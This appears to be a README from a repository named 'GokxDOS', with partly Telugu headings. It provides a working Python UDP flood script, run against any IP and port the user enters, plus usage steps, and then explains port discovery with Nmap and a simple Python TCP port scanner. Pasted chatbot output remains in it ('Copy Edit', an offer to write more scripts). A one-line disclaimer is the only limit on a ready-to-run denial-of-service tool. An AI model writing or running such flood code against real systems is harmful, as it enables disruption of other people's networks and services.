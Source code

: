 # GokxDOS

sample code idi Sample UDP Flood Script (Python)

```
import socket
import random
import time

def udp_flood(target_ip, target_port, packet_size=1024, duration=10):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    bytes_to_send = random._urandom(packet_size)
    timeout = time.time() + duration  # Run for X seconds
    
    print(f"Starting UDP flood on {target_ip}:{target_port} for {duration} seconds...")
    
    while time.time() < timeout:
        try:
            sock.sendto(bytes_to_send, (target_ip, target_port))
            print(f"Sent {packet_size} bytes to {target_ip}:{target_port}")
        except Exception as e:
            print(f"Error: {e}")
    print("UDP flood finished.")

if __name__ == "__main__":
    target_ip = input("Enter target IP: ")
    target_port = int(input("Enter target port: "))
    duration = int(input("Enter duration (seconds): "))
    
    udp_flood(target_ip, target_port, duration=duration)

```



### Usage ela ante lykk  UDP Flood Script (Simple)
Save the script as udp_flood.py.

Open a terminal and run:

```
python3 udp_flood.py
```

Target IP (use your own device or test network IP)

Target Port (like 80 or 53)

Duration in seconds (e.g., 10)

The script will send random UDP packets for that time.

Important:
Use only on your own devices or test network.

Don’t attack others 




How to Find Open Ports on a Network / Device
1. Using Nmap (Most Popular)
Install Nmap:

On Linux: sudo apt install nmap

On Windows: Download from nmap.org

Run a basic scan:

bash
Copy
Edit
nmap <target-ip>
Example:

bash
Copy
Edit
nmap 192.168.1.1
This shows open ports and services on the target device.

2. Using Python Script (Simple Port Scanner)
python
Copy
Edit
import socket

target_ip = input("Enter target IP: ")

for port in range(1, 1025):  # Scanning ports 1 to 1024
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(0.5)
    result = sock.connect_ex((target_ip, port))
    if result == 0:
        print(f"Port {port} is open")
    sock.close()
Run it, enter the target IP, and it will print open ports in the scanned range.

Summary:
Use Nmap for a powerful, ready-to-use solution.

Use Python scripts for custom scanning or learning purposes.

If you want, I can provide a ready-to-use port scanner script with explanations. Just ask!



documentation antha ochi files lo undi .... 




